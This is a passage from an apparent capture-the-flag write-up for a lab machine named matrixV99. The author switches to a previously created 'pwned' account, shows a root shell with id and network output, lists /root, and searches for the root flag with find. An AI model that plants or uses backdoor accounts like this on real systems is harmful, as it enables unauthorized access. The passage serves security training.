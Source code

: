 **Yes! We now can Switch User to our newly created user:**
```shell
architect@matrixV99:~$ su pwned
Password: 
root@matrixV99:/home/architect# whoami;hostname;id;ip a
root
matrixV99.2
uid=0(root) gid=0(root) groups=0(root)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:ed:e4:eb:73:43 brd ff:ff:ff:ff:ff:ff
    inet 10.10.95.198/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 3242sec preferred_lft 3242sec
    inet6 fe80::ed:e4ff:feeb:7343/64 scope link 
       valid_lft forever preferred_lft forever
```

I'm root! :D

## Rooted

**However, we didn't find the root flag in  `/root`:**
```shell
root@matrixV99:/home/architect# ls -lah /root
total 56K
drwx------  6 root root 4.0K Mar 10  2021 .
drwxr-xr-x 23 root root 4.0K Feb 25  2021 ..
lrwxrwxrwx  1 root root    9 Mar 10  2021 .bash_history -> /dev/null
-rw-r--r--  1 root root 3.1K Apr  9  2018 .bashrc
drwx------  3 root root 4.0K Jan 30  2021 .cache
drwx------  3 root root 4.0K Dec 30  2020 .gnupg
drwxr-xr-x  3 root root 4.0K Dec 23  2020 .local
-rw-------  1 root root  11K Jan 30  2021 .mysql_history
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   66 Jan 27  2021 .selected_editor
drwx------  2 root root 4.0K Dec 30  2020 .ssh
-rwx------  1 root root 1.8K Jan 27  2021 SSH-TOTP-timeSimulator.py
-rw-r--r--  1 root root  227 Mar  9  2021 .wget-hsts
```

**Let's use `find` to find it:**
```shell
root@matrixV99:/home/architect# find / -name "*root*" 2>/dev/null
[...]
/etc/-- -root.py
[...]
```
